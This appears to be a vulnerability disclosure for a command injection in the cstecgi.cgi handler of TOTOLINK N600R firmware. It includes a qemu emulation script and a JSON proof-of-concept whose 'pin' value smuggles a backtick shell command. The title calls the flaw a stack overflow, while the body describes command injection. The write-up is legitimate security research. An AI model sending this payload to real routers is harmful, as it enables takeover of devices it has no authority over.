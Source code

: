 ﻿# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-stack overflow

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## injection point 0x41caac

There is an injection attack vulnerability in the function FUN_0041c824.
The code disassembled by ghidra is shown in the figure below:

![enter image description here](https://i.miji.bid/2025/05/07/456dd04d343e04d87e7fde1fc2a4b66b.png)

### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41caac_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111`ls>41caac.txt`ll"
}
```

### Operation Results
When running to the system instruction in gdb, it is found that the executed string contains the injected command.
After execution, you can see that the corresponding file is generated in the corresponding folder.
![enter image description here](https://i.miji.bid/2025/05/07/bb335c1b28c2205899b0380cc1fcce4a.png)



